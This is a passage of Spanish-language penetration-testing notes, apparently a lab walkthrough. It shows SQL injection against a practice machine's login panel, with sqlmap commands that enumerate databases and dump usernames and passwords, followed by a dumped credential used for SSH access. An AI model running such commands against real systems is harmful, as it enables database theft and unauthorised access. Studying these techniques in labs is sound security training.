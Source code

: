 Ahora vamos a acceder a las columnas de la tabla users:
![[Pasted image 20230131220155.png]]
Y ya tenemos el resultado:
![[Pasted image 20230131220203.png]]
Y ahora vamos a acceder a los registros de cada una de estas columnas:
![[Pasted image 20230131220224.png]]
Y nos encontró esta credencial, aunque viene hasheada:
![[Pasted image 20230131220236.png]]
## OPCIÓN 2 CON SQLMAP
Por ejemplo tenemos este panel de login de la máquina [[MAQUINA SHOP (Fuzzing, SQLi con sqlmap, escalada de privilegios en Linux con linpeas, perl y gtfobins)]]
![[Pasted image 20230720124445.png]]
En este punto, podemos probar si esto es vulnerable a una sql injection con sqlmap con este parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms --dbs --batch
```
Y tenemos estas bases de datos:
![[Pasted image 20230720130018.png]]
Ahora vamos a atacar a la base de datos webapp, donde si queremos ver las tablas con sqlmap, debemos usar el siguiente parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp --tables --batch
```
Y vemos la tabla users:
![[Pasted image 20230720130239.png]]
Ahora para ver las columnas de la tabla Users, lo haríamos de la siguiente forma:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp -T Users --columns --batch
```
![[Pasted image 20230720130627.png]]
Y ahora para ver todos estos registros con los usuarios y contraseñas, lo haríamos con el siguiente parámetro:
```bash
sqlmap -u http://192.168.0.38/administrator/ --forms -D Webapp -T Users -C password,id,username --dump --batch
```
![[Pasted image 20230720131304.png]]
Por tanto ahora vamos a probar en acceder por ssh con el usuario bart y contraseña b4rtp0w4:
```bash
bart:b4rtp0w4
### Funcionamiento de SQL Injection Explicada desde MySQL
Vamos a mostrar el funcionamiento de una SQL injection desde MySQL para entenderlo mejor, por tanto creamos una base de datos llamada users:
```python
CREATE DATABASE users;
```
Y ahora creamos una tabla llamada acceso:
```python
CREATE TABLE acceso (
  id_usuario INT NOT NULL AUTO_INCREMENT,
  usuario VARCHAR(50) NOT NULL,
  contraseña VARCHAR(50) NOT NULL,
  PRIMARY KEY (id_usuario)
);
```
Ahora creamos 2 usuarios, uno penguin y otro mario, donde en ambos se va a guardar las credenciales de acceso:
```python
INSERT INTO acceso (id_usuario, usuario, contraseña)
```